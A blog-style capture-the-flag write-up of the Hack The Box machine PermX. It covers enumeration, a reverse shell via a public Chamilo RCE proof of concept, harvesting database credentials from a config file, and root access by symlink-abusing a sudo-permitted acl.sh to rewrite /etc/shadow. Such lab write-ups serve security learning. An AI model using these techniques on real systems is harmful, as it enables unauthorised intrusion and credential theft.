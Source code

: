 ```yaml
---
draft: false
title: "Hack the Box #3 - PermX without Metasploit"
date: 2024-07-30
author: William
category:
  - Tech
tags:
  - Linux
  - Security
  - Hacking
cover:
  image: hack_the_box_3_permx.png
  alt: hack_the_box_3_permx.png
---
```

I've been messing with retired boxes on Hack the box and thought i would finally try my hand on one of the active ones!

---
## Enumeration

So as per lets start with an nmap scan.
```bash
# Nmap 7.94SVN scan initiated Sat Jul 27 09:05:17 2024 as: nmap -sV -p- -o nmap.scan 10.10.11.23
Nmap scan report for permx.htb (10.10.11.23)
Host is up (0.062s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Jul 27 09:06:05 2024 -- 1 IP address (1 host up) scanned in 48.48 seconds

```

In doing so we find ports 22, 80 open. Both versions seem secure so lets have a look at the website.

> sudo vim /etc/hosts

Adding [http://permx.htb/](http://permx.htb/) Looks like some elearning site. Inspecting the page source shows there is an underlying page but none of the urls load anything of interest.

```bash
/.htaccess           [33m (Status: 403)[0m [Size: 274]
/.htpasswd           [33m (Status: 403)[0m [Size: 274]
/.hta                [33m (Status: 403)[0m [Size: 274]
/css                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/css/>][0m
/img                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/img/>][0m
/index.html          [32m (Status: 200)[0m [Size: 36182]
/js                  [36m (Status: 301)[0m [Size: 303][34m [--> <http://permx.htb/js/>][0m
/lib                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/lib/>][0m
/server-status       [33m (Status: 403)[0m [Size: 274]
```

With some further subdirectory enumeration with gobuster We have some denied and an open directory but nothing of serious interest. Lets see if we have any subdomains of interest???

Weirdly is wasn’t getting much success with with the generic **ffuf** method of:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://FUZZ.permx.htb -mc 200
```

This doesn't seem right. It isn't even detecting the www root that I am connected to… After a little bit of research I found another way to make the query.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u <http://10.10.11.23> -H "Host: FUZZ.permx.htb" -mc 200
```

What is the difference you might ask? The former is sending out a request to DNS servers for what other subdomains it could connect to. Where the latter is sending requests directly to the IP Address im trying to hit…

And after running the command against the VHOST we get

**lms.permx.htb**

WHY IS IT ALWAYS DNS!!!!!!!

Lets add this bad boy to our hosts file and lets see what we got… Looks like we have a login page with the administrator mentioned at the bottom.

![LoginPage](https://i.imgur.com/7BQRrzZ.png#center)

+1 to email admin@permx.htb love you Davis Miller

---
## Exploitation 

In digging through the source to determine what version of Chamilo we are dealing with I could only determine **Chamilo 1** thinking it wouldn't get me to far without a specific version but google is a bountiful place with a simple **Chamilo 1 exploit** search we find a PoC put together by m3m0o [m3m0o/chamilo-lms-unauthenticated-rce](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) Thanks mate love you.

Downloading this and reviewing the exploit it can either check for the vulnerability, drop a webshell or a reverse shell using the exploit. Well I'm feeling vrevshelly today :D

![ReverseShell](https://i.imgur.com/GM5Qp5D.png#center)

Looks like we are **www-data** but we can still read the etc/passwd looks to be a single human user of mtz that's where our user flag will be… Lets start enumerating this box and see how we can get it.

In poking around we get this find an interesting file...
```bash
└─$ find / -type f -name "*config*" 2>/dev/null 
...
/var/www/chamilo/app/config/configuration.php
...

└─$ cat "/var/www/chamilo/app/config/configuration.php" | grep "db_user\\|db_pass"
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

Great we have been able to acquire the database username and password.

Trying to login to the Chamilo portal the user doesn't work. Good. Lets try it with the user **mtz**.

```bash
└─$ ssh mtz@10.10.11.23
mtz@10.10.11.23's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)
...
mtz@permx:~$ cat user.txt
==============USER_FLAG_STRING==============
```

I’m in and we got the flag… Now to escalate to root!

---
## Privilege Escalation 

Lets start by enumerating what processes can be run as superuser.
```bash
mtz@permx:~$ find / -perm -u=s -type f 2>/dev/null
...
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

There are some interesting ones at the bottom of this lookup. Digging into polkit, we are running version 0.105-33 and with a cursery search on exploit_db we find this bad boy [exploit-db](https://www.exploit-db.com/exploits/50011)

After running this a couple times however we have no success. The script is unable to create a user. Lets see what this user can run...

```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

We can run **[acl.sh](http://acl.sh)** as a sudo user without a password. Looking at the script is assigns permissions to a given target file but does restrict the user to only be able to run it on their home directory. We can’t edit this file but we can abuse the security check by creating a symbolic link to root.
```bash
mtz@permx:~$ ln -s / root # Create temp symbolic link
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow # GIB SHADOW FILE PERMS
mtz@permx:~$ vim /etc/shadow 
```

Here we can pull the hashed root password and crack it… or we can just overwrite it with mtz password then we can `su root` input mtz password and BAM!!!

```bash
mtz@permx:~$ su root
Password: 
root@permx:/home/mtz# cat /root/root.txt
==============ROOT_FLAG_STRING==============
```

We got the root flag baby! And this [rubber stamp of approval](https://www.hackthebox.com/achievement/machine/1695260/613) from hack the box. My smooth brain feels satisfied. I'm going to go touch some grass now :D

